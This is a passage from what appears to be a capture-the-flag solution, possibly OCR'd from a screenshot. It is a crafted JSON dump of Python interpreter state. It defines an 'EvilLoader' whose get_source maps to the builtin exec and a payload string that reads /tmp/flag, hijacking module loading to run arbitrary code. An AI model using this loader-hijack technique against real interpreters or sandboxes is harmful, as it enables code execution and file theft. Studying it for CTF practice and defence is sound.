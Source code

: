 ```json
      },
      "15": {
        "type": "NoneType"
      },
      "131": {
        "type": "str",
        "value": "filename"
      },
      "132": {
        "type": "str",
        "value": "name"
      },
      "141": {
        "type": "str",
        "value": "__name__"
      },
      "142": {
        "type": "str",
        "value": "__loader__"
      },
      "143": {
        "type": "str",
        "value": "print(open('/tmp/flag').read())"
      },
      "144": {
        "type": "EvilLoader",
        "attrs": {
          "get_source": "1441"
        }
      },
      "1441": {
        "type": "builtin_function",
        "value": "exec"
      }
    },
    "threads": {
      "0": {
        "frame": "1"
      }
    },
    "current_thread": "0",
    "files": {},
    "metadata": {
      "version": "0.4.0"
    }
  }

```

![微信图片_20250505110938](微信图片_20250505110938.png)
